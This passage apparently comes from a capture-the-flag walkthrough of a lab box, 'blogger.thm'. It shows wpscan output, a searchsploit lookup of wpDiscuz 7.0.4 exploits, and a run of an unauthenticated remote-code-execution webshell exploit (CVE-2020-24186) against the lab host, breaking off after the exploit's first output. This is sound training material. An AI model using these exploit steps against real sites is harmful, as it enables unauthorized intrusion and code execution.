 ```bash
 | Version: 7.0.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blogger.thm/assets/fonts/blog/wp-content/plugins/wpdiscuz/readme.txt
...
```

> `wpscan` was able to identify 2 plugins, which additionally are outdated.
{: .prompt-info }

---

# exploitation
## looking for an exploit
```bash
$ searchsploit wpdiscuz  
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Wordpress Plugin wpDiscuz 7.0.4 - Arbitrary File Upload (Unauthenticated)                                                                                                                                 | php/webapps/49962.sh
WordPress Plugin wpDiscuz 7.0.4 - Remote Code Execution (Unauthenticated)                                                                                                                                 | php/webapps/49967.py
Wordpress Plugin wpDiscuz 7.0.4 - Unauthenticated Arbitrary File Upload (Metasploit)                                                                                                                      | php/webapps/49401.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

> `WordPress Plugin wpDiscuz 7.0.4 - Remote Code Execution (Unauthenticated)` looks promising.
{: .prompt-info }

## exploit
```bash
$ python3 /usr/share/exploitdb/exploits/php/webapps/49967.py                                                                    
[+] Specify an url target
[+] Example usage: exploit.py -u http://192.168.1.81/blog -p /wordpress/2021/06/blogpost
[+] Example help usage: exploit.py -h

$ python3 /usr/share/exploitdb/exploits/php/webapps/49967.py -u http://blogger.thm/assets/fonts/blog -p "/?p=27"
---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[60260] | code:[200]
[!] Got wmuSecurity value: c2e2fa9011
[!] Got wmuSecurity value: 27 
```